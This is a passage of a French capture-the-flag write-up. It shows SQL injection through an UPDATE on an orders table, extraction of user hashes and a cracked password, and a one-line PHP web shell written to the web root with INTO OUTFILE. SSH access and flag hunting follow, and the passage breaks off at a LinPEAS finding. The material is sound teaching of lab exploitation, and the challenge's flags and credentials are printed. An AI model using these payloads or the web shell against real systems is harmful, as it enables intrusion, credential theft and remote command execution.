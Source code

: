 ```plain
update orders set cvv=current_user();
```

Et de retour au dashboard je vois que la valeur est devenue *orders@%*.  

Extraction des bases de données, tables, colonnes et finalement users/passwords :  

```plain
update orders set cvv=(select group_concat(schema_name) from information_schema.schemata);
select group_concat(table_name) from information_schema.tables where table_schema='orders';
select group_concat(column_name) from information_schema.columns where table_schema='orders' and table_name='users';
select group_concat(concat_ws(0x7c, userName, password)) from users;
```

Ce qui nous donne finalement ce bel output :  

```plain
admin|$2y$12$A4jqwtWB73.TAMIeplx0T.5oG/mnHR1qTDa8cmtTIvW3ZTjdSjdjC,m0n3y6r4bb3r|$2y$12$EX/FDsztTMwftzPRyY8gFuM7ZjAphQRZs88qpZpmboRogOAOYXowC
```

Le hash de l'utilisateur *m0n3y6r4bb3r* finit par tomber à l'aide de JtR (c'est quand même du Blowfish) : *delta1*.  

SQLmap parvient à extraire des infos lui aussi mais via time-based. J'en ait profité pour dumper les privilèges de l'utilisateur courant (via *--privileges*).  

```plain
database management system users privileges:
[*] %orders% [1]:
    privilege: FILE
```

On ne l'aurait pas forcément deviné puisqu'on ne tourne pas avec l'utilisateur *root*.  

Plus qu'à dumper un shell PHP sur le serveur. A la racine web ça fonctionne :  

```plain
select "<?php system($_GET['cmd']); ?>" into outfile '/var/www/html/yolo.php';
```

Ça va mieux
-----------

Sur le système on remarque un utilisateur nommé *moneygrabber* et le mot de passe *delta1* est accepté, il est donc possible de se connecter via SSH :)  

Petite chasse aux flags :  

```bash
[moneygrabber@ppeshop tmp]$ find / -iname "flag*.txt" 2> /dev/null 
/var/www/flag1.txt
/home/moneygrabber/flag2.txt
```

Soit les chaînes respectives*WPamTh2Y9uMdphb6z0cp* et *9N8U10EAVU10cbSZPCRv*.  

*LinPEAS* montre rapidement du doigt un binaire setuid inhabituel ainsi qu'un script qui semble lié :  
